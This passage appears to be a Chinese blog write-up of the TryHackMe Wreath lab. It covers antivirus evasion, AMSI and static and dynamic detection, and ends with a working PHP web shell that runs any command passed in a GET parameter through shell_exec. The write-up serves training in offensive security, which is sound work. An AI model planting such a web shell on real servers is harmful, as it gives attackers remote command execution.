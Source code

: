 ![在这里插入图片描述](https://img-blog.csdnimg.cn/7f634d24f3fd4c7ba4758e86a4be5c0b.png)

phpinfo被成功执行

---

## Anti-Virus evasion

tryhackme:

**防病毒规避是花圈网络的第三个也是最后一个主要教学点。**

从本质上讲，AV Evasion是一个**快速变化**的话题。这是黑客和开发人员之间不断的舞蹈。每次开发人员发布新功能时，黑客都会开发一种解决方法。每次黑客绕过新功能时，开发人员都会发布另一个功能来关闭漏洞，因此循环继续。**由于这个过程的速度很快，几乎不可能教授前沿技术（并期望它们在任何时间长度内保持相关性）**

在AV规避方面，我们有两种主要类型可供选择：

- 磁盘上规避
- 内存中规避

在过去，内存中逃避足以绕过大多数AV解决方案，因为大多数防病毒软件无法扫描存储在正在运行的进程内存中的脚本。然而，情况已不再如此，因为微软实现了一项名为**Anti-Malware Scan Interface**（AMSI）的功能。AMSI 本质上是 Windows 的一项功能，可在脚本进入内存时对其进行扫描。

我们可以在得知目标系统版本、防病毒软件及其版本等信息之后，我们可以在我们本地中搭建虚拟机环境，并尝试绕过技术

### Anti-Virus 检测技术

一般来说，检测方法可分为两类：

- 静态检测
- 动态/启发式/行为检测

静态病毒恶意软件检测方法查看文件本身

静态检测又细分为：

- 文件哈希和比较
- 字节/字符串匹配

动态方法查看文件的行为方式

- 通过可执行的逐行检查执行流程。根据预定义的规则，说明哪种类型的操作是恶意的
- 可疑软件可以在AV软件的密切监督下在沙盒环境中直接执行。如果程序恶意行为，则将其隔离并标记为恶意软件

---

### PHP Payload混淆

**在AV规避方面，任何不同的东西都是好的**

payload:

```php
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```
